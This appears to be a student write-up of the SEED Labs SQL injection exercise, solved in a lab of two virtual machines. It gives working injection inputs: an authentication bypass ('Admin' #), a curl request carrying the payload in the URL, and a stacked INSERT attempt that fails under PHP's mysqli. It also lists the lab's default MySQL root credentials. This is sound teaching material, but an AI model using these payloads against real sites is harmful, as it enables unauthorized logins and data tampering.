


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS record in `/etc/hosts` on the attacker:

```
10.0.2.4       www.SeedLabSQLInjection.com
```

# Task 1

Log in MYSQL:

```
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
```

Use such a SQL query:

```sql
select * from credential where Name = 'Alice';
```



# Task 2

## Task 2.1

- **USERNAME**: `"Admin' #"`
- **PASSWORD**: `"xyz"` whatever you like, it doesn't matter.

It will result in a SQL query as:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='xyz'
```

Then statements after `#` will be regarded as comments. So we can log in as `Admin`.


## Task 2.2

```
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
```

It will return a bunch of `html` code. when exporting outputs to file by `> temp.html` and open it, it looks like:


It contains all information we need but lacks the layout controls by a specified `CSS` file.

## Task 2.3

We need to inject such a statement to append a row to current database:

```sql
INSERT INTO credential (name, eid, password, salary, ssn) VALUES ('YJSNPI','114514','396396',17074,'1919810');
```

So construct:

- **USERNAME**: `"a' OR 1=1; INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514') #"`
- **PASSWORD**: `""` (remain blank)

It fails and alerts with a syntax error:



Because in PHP's `mysqli` extension, which invokes `mysqli::query` API to handle SQL statement, it doesn't support multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.